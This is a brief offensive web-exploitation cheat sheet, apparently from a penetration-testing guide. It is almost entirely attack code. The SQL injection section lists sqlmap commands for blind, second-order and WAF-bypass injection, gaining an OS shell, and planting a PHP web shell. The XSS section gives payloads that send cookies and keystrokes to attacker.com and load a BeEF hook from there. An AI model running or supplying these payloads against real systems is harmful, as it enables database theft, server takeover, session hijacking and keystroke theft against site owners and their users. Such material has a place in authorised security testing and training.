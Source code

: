 ## Web Application Exploitation

### Advanced SQL Injection Techniques
**Objective**: Exploit database vulnerabilities for data extraction and system compromise

**Techniques**:
```bash
# 1. Advanced blind SQL injection
sqlmap -u "http://target.com/page.php?id=1" --technique=B --dbms=mysql --dump

# 2. Second-order SQL injection
sqlmap -u "http://target.com/register.php" --data="username=admin'&password=test" --second-order="http://target.com/profile.php"

# 3. WAF bypass techniques
sqlmap -u "http://target.com/page.php?id=1" --tamper=space2comment,charencode,randomcase

# 4. Database takeover
sqlmap -u "http://target.com/page.php?id=1" --os-shell
sqlmap -u "http://target.com/page.php?id=1" --file-write="/tmp/shell.php" --file-dest="/var/www/html/shell.php"
```

### Advanced Cross-Site Scripting (XSS)
**Objective**: Execute malicious scripts in victim browsers for session hijacking and data theft

**Techniques**:
```javascript
// 1. Advanced XSS payloads
// DOM-based XSS
<script>eval(atob('YWxlcnQoZG9jdW1lbnQuY29va2llKQ=='))</script>

// 2. Session hijacking
<script>
var xhr = new XMLHttpRequest();
xhr.open('POST', 'http://attacker.com/steal.php', true);
xhr.send('cookie=' + document.cookie + '&url=' + window.location);
</script>

// 3. Keylogger injection
<script>
document.addEventListener('keydown', function(e) {
    var xhr = new XMLHttpRequest();
    xhr.open('POST', 'http://attacker.com/keylog.php', true);
    xhr.send('key=' + e.key + '&target=' + window.location);
});
</script>

// 4. Browser exploitation framework (BeEF)
<script src="http://attacker.com:3000/hook.js"></script>
```
